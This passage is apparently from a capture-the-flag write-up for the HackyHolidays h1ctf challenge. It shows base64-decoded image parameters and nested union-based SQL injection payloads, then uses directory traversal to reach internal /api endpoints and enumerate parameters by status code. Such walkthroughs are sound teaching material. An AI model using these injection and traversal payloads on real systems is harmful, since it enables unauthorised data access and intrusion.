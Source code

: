 {F1131633}

This was the image url: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMiLCJhdXRoIjoiZmVhNzUwNzQ3OGFhODIyNWMwMjI1MjdiMTc2M2ZiMzMifQ==

```json
eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMiLCJhdXRoIjoiZmVhNzUwNzQ3OGFhODIyNWMwMjI1MjdiMTc2M2ZiMzMifQ==

{"image":"r3c0n_server_4fdk59\/uploads\/3","auth":"fea7507478aa8225c022527b1763fb33"}
```

You see that \/3 at the last , it is something new.After some time I realised it that that's the vulnerable column.
This time used this payload: `hash=-jdh34k' union select "1' union select 1,2,version()--+-",2,3--+-`

```json
eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzguMC4yMi0wdWJ1bnR1MC4yMC4wNC4zIiwiYXV0aCI6IjAzZDJiYzk3YTU4ZGMxNWM0ZWFmNWQ0ZmEyZDlmOTNkIn0=
{"image":"r3c0n_server_4fdk59\/uploads\/8.0.22-0ubuntu0.20.04.3","auth":"03d2bc97a58dc15c4eaf5d4fa2d9f93d"}
```

One more thing which I want to add is that the image link response had this message *Expected HTTP status 200, Received: 404*, the 404 status code were for this endpoint `r3c0n_server_4fdk59\/uploads\/8.0.22-0ubuntu0.20.04.3` as there is no endpoint with that name of the server it gave 404. Also the auth value is changing as per the image value.

.................... Still I had no idea what to do next

Directory traversal to access the /api/* endpoints, remember the error which was shown by those api endpoints "Invalid client IP",let's try to access this endpoint from here.

```
hash=-jdh34k' union select "1' union select 1,2,'../api'--+-",2,3--+-

Response: Invalid content type detected
```

Now the server was making request to this endpoint: r3c0n_server_4fdk59/uploads/../api -> r3c0n_server_4fdk59/api
So a valid endpoints response is "Invalid Content type" and for an invalid "404"

Now onto enumerating some api endpoints:

```
hash=-jdh34k' union select "1' union select 1,2,'../api/user'--+-",2,3--+-
Response: Invalid content type detected

Parameters???

hash=-jdh34k' union select "1' union select 1,2,'../api/user?username='--+-",2,3--+-
Response: Expected HTTP status 200, Received: 204

hash=-jdh34k' union select "1' union select 1,2,'../api/user?xxxx='--+-",2,3--+-
Response: Expected HTTP status 200, Received: 400

hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=&password='--+-",2,3--+-
Response: Expected HTTP status 200, Received: 204

```
